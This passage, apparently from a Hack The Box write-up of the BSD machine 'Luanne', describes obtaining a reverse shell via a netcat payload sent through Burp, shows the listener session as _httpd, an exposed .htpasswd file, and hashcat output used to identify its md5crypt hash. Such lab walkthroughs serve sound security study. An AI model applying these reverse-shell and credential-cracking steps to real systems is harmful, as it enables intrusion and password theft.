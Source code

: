 At this point, I got stuck for some time trying to get a reverse shell up and running. I didn't manage to get any of my default reverse shells working. I even tried writing the payload in Lua, but that didn't work because of missing modules. Taking a step back, I remembered again that this target host was a BSD system. Searching around for a BSD specific reverse shell, I bumped into this [repo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd).

![Creating Reverse Shell in Burp](./assets/2021-03-28-hack-the-box-luanne/burp-suite-reverse-shell.png)

And I've got a shell:

```sh
$nc -lnvp 6666
listening on [any] 6666 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.218] 65485
sh: can't access tty; job control turned off
$ whoami
_httpd
$ ls -al
total 20
drwxr-xr-x   2 root  wheel  512 Nov 25 11:27 .
drwxr-xr-x  24 root  wheel  512 Nov 24 09:55 ..
-rw-r--r--   1 root  wheel   47 Sep 16  2020 .htpasswd
-rw-r--r--   1 root  wheel  386 Sep 17  2020 index.html
-rw-r--r--   1 root  wheel   78 Nov 25 11:38 robots.txt
```

The directory seems to have a `.htpasswd`, which contains a UNIX md5 hash. We can verify this by dumping example hashes from hashcat and grep for the first couple of characters of the hash:

```sh
hashcat --example-hashes | grep '\$1\$' -B 1
MODE: 500
TYPE: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
HASH: $1$38652870$DUjsu4TTlTsOe/xxZ05uf/
--
TYPE: eCryptfs
HASH: $ecryptfs$0$1$4207883745556753$567daa975114206c
--
TYPE: FileVault 2
HASH: $fvde$1$16$84286044060108438487434858307513$20000$f1620ab93192112f0a23eea89b5d4df065661f974b704191
--
TYPE: BitLocker
HASH: $bitlocker$1$16$6f972989ddc209f1eccf07313a7266a2$1048576$12$3a33a8eaff5e6f81d907b591$60$316b0f6d4cb445fb056f0e3e0633c413526ff4481bbf588917b70a4e8f8075f5ceb45958a800b42cb7ff9b7f5e17c6145bf8561ea86f52d3592059fb
```

